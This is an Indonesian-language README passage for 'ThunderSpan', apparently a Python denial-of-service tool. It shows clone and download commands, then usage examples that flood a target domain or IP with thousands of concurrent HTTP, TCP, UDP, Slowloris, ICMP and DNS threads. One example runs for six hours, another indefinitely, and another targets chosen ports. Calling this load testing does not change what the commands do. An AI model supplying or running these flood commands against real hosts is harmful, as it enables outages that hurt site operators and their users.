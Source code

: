 Unduh ThunderSpan

# Clone repositori (ganti dengan username Anda)
git clone [https://github.com/your-username/ThunderSpan.git](https://github.com/your-username/ThunderSpan.git)
cd ThunderSpan

# Atau unduh file secara manual
wget [https://raw.githubusercontent.com/your-username/ThunderSpan/main/thunderspan.py](https://raw.githubusercontent.com/your-username/ThunderSpan/main/thunderspan.py)

🎯 Penggunaan
Penggunaan Dasar

# Contoh penggunaan dasar dengan URL
python3 thunderspan.py [https://target-domain.com](https://target-domain.com)

# Contoh dengan alamat IP
python3 thunderspan.py 192.168.1.100

Penggunaan Lanjutan

# Konfigurasi ekstrem untuk pengujian selama 6 jam
python3 thunderspan.py [https://target-domain.com](https://target-domain.com) \
  --http-threads 3000 \
  --tcp-threads 800 \
  --udp-threads 800 \
  --slowloris-threads 200 \
  --icmp-threads 200 \
  --dns-threads 100 \
  --duration 21600

# Mode tak terbatas (berjalan hingga dihentikan manual dengan Ctrl+C)
python3 thunderspan.py [https://target-domain.com](https://target-domain.com) --infinite

# Menargetkan port khusus
python3 thunderspan.py [https://target-domain.com](https://target-domain.com) --ports 80,443,8080,8443

# Ukuran data dan paket kustom
python3 thunderspan.py [https://target-domain.com](https://target-domain.com) --method POST --data-size 4096 --packet-size 2048
